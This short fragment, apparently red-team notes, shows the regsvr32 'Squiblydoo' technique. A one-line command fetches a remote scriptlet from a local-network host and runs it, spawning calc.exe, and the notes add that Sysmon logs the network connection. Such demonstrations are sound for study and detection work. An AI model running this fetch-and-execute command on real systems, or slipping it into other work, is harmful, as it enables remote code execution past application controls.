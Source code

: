 
Invoke our file.svt by hosting it on a server
```
regsvr32.exe /s /i:http://10.0.0.5/file.sct scrobj.dll
```
calc.exe is spawned by regsvr32.exe:
![image](https://github.com/user-attachments/assets/2d8bab8b-8a61-4b73-92a0-f7e06e90fe7a)

However, sysmon will show regsvr32 establishing a network connection:

![image](https://github.com/user-attachments/assets/7a0a4e63-47a9-4a3a-8987-1e449171381e)
